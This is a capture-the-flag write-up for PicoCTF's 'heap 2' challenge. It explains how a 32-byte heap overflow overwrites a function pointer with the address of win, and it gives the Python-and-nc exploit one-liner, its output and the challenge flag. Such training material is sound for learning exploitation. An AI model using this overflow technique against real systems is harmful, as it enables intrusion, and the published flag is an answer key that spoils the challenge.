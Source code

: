# Heap 2#

This is the write-up for the challenge "heap 2" challenge in PicoCTF

## The challenge ##

### Description ###
you can find the challenge [here](https://play.picoctf.org/practice/challenge/435)  
the challenge says:  
> Can you handle function pointers?  
> Download the binary [here](files/binary).  
> Download the source [here](files/code.c).  
> Connect with the challenge instance here:  
> nc mimas.picoctf.net \<port\>  

![mission image](imgs/mission.png) 

## How I Solve The Challenge ##
Starting with reading the code I noticed that I need to override the `x` to be a pointer to the function `win`.  
How can I do it, I can write to `input_data` enough chars that it will spilled into `x` and change `x`.  
Now we need to answer 2 questions:

1. How many chars?  
   We can see the difference between `x` and `input_data` in the program when we choose `1` we can see:
   ```
   Enter your choice: 1
   [*]   Address   ->   Value   
   +-------------+-----------+
   [*]   0x1ce62b0  ->   pico
   +-------------+-----------+
   [*]   0x1ce62d0  ->   bico
   ```
   So the number of chars we need to enter is `0x1ce62d0 - 0x1ce62b0 = 32` to change `x`  
2. What is the number that represent a pointer to the `win` function?  
   To answer that question we open `gdb binary` and write `print win` we got that the we need `0x4011a0`

## Solving ##
After receiving all the needed data, lets try it out using the next command:  
```bash
python -c "import sys; sys.stdout.buffer.write(b'2\n'+b'_'*32+b'\x00\x40\x11\xa0'[::-1]+b'\n'+b'4\n5\n')" |\
nc mimas.picoctf.net <port> |\
grep -oE picoCTF{.*?}
```
Whats going on here? We use python to solve this by writing to the stdout:  
`2\n` - choose the option 2 - write to buffer  
`b'_'*32` - 32 non-relevant chars - just to get to the option to write to `x`  
`b'\x00\x40\x11\xa0'[::-1]` - write the pointer to the win function to `x`, the `[::-1]` used for little endian  
`b'\n'` - so the buffer will read all this to `input_data`  
`b'4\n5\n'` - choose option 4 for printing the flag, choose option 5 for exit the program  

We piped it to the program using the `| mimas.picoctf.net <port>`  
We piped it to a grep that will find the flag using the `| grep -oE picoCTF{.*?}`

Let's run it in the picoCTF bash:
```bash
hodvak-picoctf@webshell:~$ python -c "import sys; sys.stdout.buffer.write(b'2\n'+b'_'*32+b'\x00\x40\x11\xa0'[::-1]+b'\n'+b'4\n5\n')"| nc mimas.picoctf.net 61826 | grep -Eo picoCTF{.*?}
picoCTF{and_down_the_road_we_go_dbb7ff66}
```
Voila!!! 😎  
The flag is `picoCTF{and_down_the_road_we_go_dbb7ff66}`  
Cheers 😄  
